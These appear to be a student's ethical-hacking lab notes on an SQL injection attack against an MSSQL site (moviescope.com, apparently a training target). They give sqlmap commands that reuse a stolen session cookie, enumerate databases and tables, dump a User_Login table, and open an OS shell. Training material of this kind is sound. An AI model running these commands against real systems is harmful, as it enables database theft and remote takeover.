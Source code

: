 **Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap**

-   Login a website
-   Inspect element
-   Dev tools-&gt;Console: document.cookie
-   **sqlmap -u "[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" --cookie="value" –dbs**
    -   **-u: Specify the target URL**
    -   **--cookie: Specify the HTTP cookie header value**
    -   **--dbs: Enumerate DBMS databases**
-   Get a list of databases
-   Select a database to extract its tables
-   **sqlmap -u "[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" --cookie="value" -D moviescope –tables**
    -   **-D: Specify the DBMS database to enumerate**
    -   **--tables: Enumerate DBMS database tables**
-   Get a list of tables
-   Select a column
-   **sqlmap -u "[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" --cookie="value" -D moviescope –T User_Login --dump**
-   Get table data of this column
-   **sqlmap -u "[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" --cookie="value" --os-shell**
-   Get the OS Shell
-   TASKLIST